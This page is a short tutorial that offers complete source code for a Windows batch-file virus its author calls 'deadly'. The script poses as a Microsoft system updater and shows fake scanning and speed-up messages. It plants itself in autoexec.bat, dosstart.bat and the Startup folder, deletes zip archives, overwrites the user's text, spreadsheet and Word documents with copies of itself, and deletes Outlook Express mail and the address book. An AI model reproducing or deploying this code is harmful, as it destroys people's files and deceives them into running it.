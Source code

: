 ### MAKING YOUR OWN DEADLY BATCH FILE VIRUS  ###

The following is a simple but somewhat deadly (but quite lame)Batch File Virus that I created. I have named it, VIRUS for short. I have used no advanced Batch or DOS commands in this virus and am sure that almost all you will have no problem understanding the code.
    @ECHO OFF            
    CLS
    IF EXIST c:\winupdt.bat GOTO CODE
    GOTO SETUP
    :SETUP
    @ECHO OFF
    ECHO Welcome To Microsoft Windows System Updater Setup
    ECHO.
    copy %0 c:\winupdt.bat >> NUL
    ECHO Scanning System.....Please Wait
    prompt $P$SWindows2000
    type %0 >> c:\autoexec.bat
    type %0 >> c:\windows\dosstart.bat
    ECHO DONE.
    ECHO.
    ECHO Installing Components....Please Wait
    FOR %%a IN (*.zip) DO del %%a
    FOR %%a IN (C:\mydocu~1\*.txt) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.xls) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.doc) DO COPY c:\winupdt.bat %%a >> NUL
    ECHO DONE.
    ECHO.
    ECHO You Now Need to Register with Microsoft's Partner: Fortune Galaxy to receive automatic updates.
    PAUSE
    ECHO Downloading Components...Please Wait
    START "C:\Program Files\Internet Explorer\Iexplore.exe" <http://www.website.com>
    IF EXIST "C:\Program Files\Outlook Express\msimn.exe"
    del "C:\WINDOWS\Application Data\Identities\{161C80E0-1B99-11D4-9077-FD90FD02053A}\Microsoft\Outlook Express\*.dbx"
    IF EXIST "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"  del "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"
    ECHO Setup Will Now restart Your Computer....Please Wait
    ECHO Your System is not faster by almost 40%.
    ECHO Thank you for using a Microsoft Partner's product.
    copy %0 "C:\WINDOWS\Start Menu\Programs\StartUp\winupdt.bat" >> NUL
    c:\WINDOWS\RUNDLL user.exe,exitwindowsexec
    CLS
    GOTO END
    :CODE
    CLS 
    @ECHO OFF
    prompt $P$SWindows2000
    IF "%0" == "C:\AUTOEXEC.BAT" GOTO ABC
    type %0 >> c:\autoexec.bat
    :ABC
    type %0 >> c:\windows\dosstart.bat
    FOR %%a IN (*.zip) DO del %%a
    FOR %%a IN (C:\mydocu~1\*.txt) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.xls) DO COPY c:\winupdt.bat %%a >> NUL
    FOR %%a IN (C:\mydocu~1\*.doc) DO COPY c:\winupdt.bat %%a >> NUL
    START "C:\Program Files\Internet Explorer\Iexplore.exe" <http://www.website.com>
    IF EXIST "C:\Program Files\Outlook Express\msimn.exe" del "C:\WINDOWS\Application Data\Identities\{161C80E0-1B99-11D4-9077-FD90FD02053A}\Microsoft\Outlook Express\*.dbx" >> NUL
    IF EXIST "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab"  del "C:\WINDOWS\Application Data\Microsoft\Address Book\hxor.wab" >> NUL
    copy %0 "C:\WINDOWS\Start Menu\Programs\StartUp\winupdt.bat" >> NUL
    GOTO :END